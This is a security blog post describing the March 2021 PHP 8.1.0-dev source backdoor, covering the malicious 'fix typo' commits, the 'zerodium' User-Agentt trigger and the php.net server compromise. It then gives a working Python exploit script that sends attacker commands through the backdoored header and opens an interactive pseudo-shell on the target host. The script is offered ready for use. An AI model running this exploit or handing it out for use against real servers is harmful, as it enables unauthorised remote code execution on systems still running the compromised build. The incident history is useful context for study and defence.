


_[<-- Home](https://flast101.github.io)_

# PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_


PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.   

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

* * *

## Summary

1- The Story   
2- POC Script    
  

* * * 
## 1- The story

### 1.1- PHP source code targeted in backdoor attack ?

Two malicious commits were pushed to the PHP Git code repo on Sunday, March 28, and signed off under the names of PHP creator, Rasmus Lerdorf, and maintainer Nikita Popov. 

In the malicious commits, the attackers published a mysterious change upstream, "fix typo" under the pretense this was a minor typographical correction. 



However, taking a look at the added line 370 where zend_eval_string function is called, the code actually plants a backdoor for obtaining easy Remote Code Execution (RCE) on a website running this hijacked version of PHP. This line executes PHP code from within the useragent HTTP header, if the string starts with 'zerodium'.  
Zerodium is a a Washington-based security firm that specializes in buying and selling zero-day vulnerabilities for a variety of operating systems and popular desktop and Web applications, including for PHP itself.

According to PHP maintainers, this malicious activity stemmed from the compromised git.php.net server, rather than compromise of an individual's Git account. Official announcement states the incident points towards a server compromise.
 


### 1.2- PHP Site's User Database Was Hacked

Further investigation into the incident has revealed that the commits were a result of pushing them using HTTPS and password-based authentication, leading them to suspect a possible leak of the master.php.net user database.



Additionally, the master.php.net authentication system is said to be on a very old operating system and a version of PHP, raising the possibility that the attackers may have also exploited a vulnerability in the software to stage the attack.

As a consequence, the maintainers have migrated master.php.net to a new main.php.net system with support for TLS 1.2, in addition to resetting all existing passwords and storing passwords using bcrypt instead of a plain MD5 hash.

* * * 

## 2- POC Script

This short exploit script uses the backdoor to provide a pseudo system shell on the host.

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Code Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:**     
    [https://hub.docker.com/r/phpdaily/php]([https://hub.docker.com/r/phpdaily/php])        
    [https://github.com/phpdaily/php](https://github.com/phpdaily/php)    
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- Previous vulnerability references:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    


```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Be Curious, Learning is Life !

_[<-- Home](https://flast101.github.io)_


<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>

